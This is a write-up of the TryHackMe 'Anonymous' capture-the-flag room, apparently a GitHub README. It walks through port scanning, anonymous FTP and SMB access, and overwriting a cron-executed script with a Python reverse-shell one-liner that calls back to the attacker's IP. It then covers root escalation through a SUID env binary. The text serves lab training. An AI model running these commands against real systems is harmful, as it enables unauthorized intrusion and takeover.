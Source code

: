# TryHackMe-AnonymousCTF-Writeup

Writeup for Anonymous room, ctf avaiable at https://tryhackme.com/room/anonymous (visit try hack me https://tryhackme.com/)

### General info

Some alias:

MACHINE_IP = victim's ip
MY_IP = my ip address on Try Hack Me network

I'm using a kali virtual machine and connecting via openVPN

## First task

As I'm running nmap (in order to enumerate the machine) as root the scan would be a syn scan by default: 

`nmap -A $MACHINE_IP`

Just count the open ports.

## Second task/Third task

-A flag being used the command for the first question also gives the answers for the second and the third

## Fourth task

We can use enum4linux to answer this:

`enum4linux MACHINE_IP`

it gives us the answer

## Fifth task

I decided to try anonymous login on the ftp and smb services to see if I could find interesting files

for smb:

`smbclient //MACHINE_IP/<name of the share from the previous task>`

Just hit enter when it asks for the password.
I was able to download two pictures, and used both exiftool and steghide to retrieve more information.
I also tried stegseek on both images but I was able to retrieve no passphrase so ... nothing with the pics!

for ftp:

`ftp $MACHINE_IP` 

Entered username "anonymous" and no password.

There was one directory called scripts containing some files: clean.sh , removed_files.log, to_do.txt

I used 'get <filename' ftp's command to get them on my machine: 
to_do.txt -> was a note from the admin wich states that anonymous login is not secure ... you don't say!
clean.sh -> It's a cleanup scripts that is going to write something in removed_files.log when it's executed
removed_files.log -> contains the log from the previous script.

Monitoring the content of removed_files.log I realized that the script was running about every minute, so I used it to gain a reverse python shell:

>> !#/bin/bash
>> export RHOST="MY_IP";export RPORT=4445;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

(The previous reverse shell was taken from the git project: https://github.com/swisskyrepo/PayloadsAllTheThings)

I uploaded it with ftp overriding the old clean.sh, started a netcat listener (`nc -lvnp 4445`) and waited few seconds.

I receveid a reverse shell wich I stabilized by background the process (ctrl + z) and running `stty raw -echo; fg`

I ran `id` and `whoami` to acknowledge I was logged as 'namelessone' in which home directory I found the file user.txt containing the flag for this task

## Sixth task

As I'm used to do the first thing to find privilage escaltion vectors was 
`find / -perm /6000 2>/dev/null`
which reveals you all the files with the SUID set so you can see if there is something unusual, in this case I found the bin "/usr/bin/env" which I searched for on GTFOBins, I found the exploitaion wich requires you to change directory in /usr/bin and run
`./env /bin/sh -p`
This gave me a root reverse shell I could use to retrieve the root flag located in /root

